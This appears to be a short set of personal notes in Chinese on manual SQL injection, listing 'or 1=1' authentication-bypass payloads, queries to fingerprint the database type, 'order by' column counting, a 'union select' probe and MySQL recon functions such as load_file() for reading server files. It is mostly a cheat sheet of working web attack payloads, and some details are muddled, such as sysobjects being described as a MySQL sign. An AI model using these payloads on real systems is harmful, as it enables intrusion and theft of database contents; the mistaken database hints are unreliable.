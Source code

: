  or 1=1--+
 'or 1=1--+
 "or 1=1--+
 )or 1=1--+ 
 ')or 1=1--+ 
 ") or 1=1--+
 "))or 1=1--+      
 and xor or

### 通过sql语句判断数据库类型与信息搜集

IIS报错的情况下使用：
and user >0 (判断是access 还是 mysql ）

不报错使用各数据库特性来判断
```sql
and (select count(*) from msyobjects) >0 (返回权限不足access数据库）
and (select count(*) from sysobjects)>0 （返回正常则是mysql数据库）
and db_name()=1
```
![705f843c8ad3a3c61364ad46123beb8c.png](en-resource://database/572:1)


### 猜解字段长度

1,2 回显正常，3报错，确认该sql对应库只有两列。
```sql
1'order by 1#
1'order by 2#
1'order by 3#
......
```
![605b2764ccb3d52f2f6260b3f5c67d75.png](en-resource://database/501:1)

### 验证长度
```sql
 1' and 1=2 union select 1,2; #
```

![56cce309a589f7a72e0bc2188780ce68.png](en-resource://database/503:1)

### mysql 相关函数

相关函数

system_user() 系统用户名
user() 用户名
current_user 当前用户名
session_user() 连接数据库的用户名
database() 数据库名
version() MYSQL数据库版本
load_file() MYSQL读取本地文件的函数
@@datadir 读取数据库路径
@@basedir MYSQL 安装路径
@@version_compile_os 操作系统
